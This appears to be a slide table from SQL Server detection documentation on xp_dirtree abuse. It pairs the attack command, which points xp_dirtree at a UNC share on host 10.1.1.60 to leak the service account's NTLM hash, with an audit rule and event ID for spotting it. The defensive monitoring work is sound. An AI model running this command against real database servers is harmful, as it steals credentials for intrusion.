

Documentation
| Category | Privilege Escalation |
| --- | --- |
| Tool | sqsh |
| Command | exec master.dbo.xp\_dirtree '\\10.1.1.60\any\thing' |
| Monitoring | Database - Stored Procedure Execution - xp\_dirtree |
| Config Scope | MASTER DATABASE AUDIT |
| Config | ADD (EXECUTE ON OBJECT::[dbo].[xp\_dirtree] BY [dbo]) |
| Event ID | EVID 33205 : SQL Audit Event - SI |
| Attack Chain Comments | The xp\_dirtree Stored Procedure can be abused to leak the NTLM hash of the account running the SQL service |